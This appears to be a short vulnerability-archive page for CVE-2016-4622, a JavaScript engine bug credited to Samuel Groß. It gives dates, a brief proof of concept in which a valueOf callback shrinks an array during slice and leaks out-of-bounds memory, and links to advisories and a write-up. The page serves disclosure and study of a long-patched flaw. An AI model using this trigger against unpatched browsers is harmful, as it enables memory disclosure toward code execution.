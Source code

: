 # CVE-2016-4622

- Report: April 2016
- Fix: July 2016
- Credit: Samuel Groß

## PoC

```javascript
var a = [];
for (var i = 0; i < 100; i++)
    a.push(i + 0.123);

var b = a.slice(0, {valueOf: function() { a.length = 0; return 10; }});
// b = [0.123,1.123,2.12199579146e-313,0,0,0,0,0,0,0]
```

## Referenceo

- [ZDI](http://www.zerodayinitiative.com/advisories/ZDI-16-485/)
- [Apple](https://support.apple.com/en-us/HT206900)
- [Write Up](http://www.phrack.org/papers/attacking_javascript_engines.html)
